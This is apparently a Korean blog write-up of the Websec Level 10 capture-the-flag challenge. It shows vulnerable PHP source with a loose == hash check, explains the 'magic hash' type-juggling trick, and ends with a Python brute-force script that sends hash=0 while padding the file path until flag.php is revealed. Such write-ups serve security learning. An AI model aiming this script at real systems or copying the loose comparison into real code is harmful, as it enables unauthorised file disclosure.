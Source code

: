```yaml
---
title : "Websec - Level 10"
excerpt : "Websec - Easy Level 10 (풀이봄..)"
toc: true
toc_sticky: true
categories:
  - Websec
tags:
  - type juggling
  - magic hash
---
```


## 1. Source code
<img src="/assets/images/websec-level 10.jpg">
``` php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash']; // default: substr(md5($flag.'index.php'.$flag),0,8) -> b4382d64
    $hash = substr (md5 ($flag . $file . $flag), 0, 8);
    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
        show_source ($file);
    } 
    else {
        echo 'Permission denied!';
    }
    echo '</pre></div>';
}
```

## 2. Vulnerability

flag.php 파일을 확인을 해야하므로 $file 값은 flag.php가 되고, 입력한 해쉬 값과 $hash 변수 값을 비교하는 부분을 통과를 해야함.  
여기서 **magic hash**란 것이 있다. md5 해쉬 암호화를 했을 때, 0e1234 이런 식으로 암호화 되는 경우가 있는데 0e로 시작하면 그 값은 0과 같음. 이 점을 이용해서 풀 수 있음.  
'0e12345' == 0 --> true

## 3. Solution
파일 이름에 따라 $hash 값이 바뀌게 되는데 flag.php 파일은 읽어야 되므로 '.' 과 '/'을 붙여줘서 브루트 포스를 하면 됨. 한 870번 조금 넘어설때 쯤 됨.
Linux에서는 파일을 실행할 때 ./파일명 이렇게 하는데 '/'의 개수가 몇개가 있든 실행이 됨.  

```python
import requests

url='http://websec.fr/level10/index.php'
string='flag.php';
headers={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,1000) :
    data={'f':string,'hash':0}
    res=requests.post(url,data=data,headers=headers)
    if("Permission denied!" not in res.text):
        print(res.text)
        break
    print("fail.. "+str(i)+" trying")
    string='.'+'/'*i+'flag.php'
```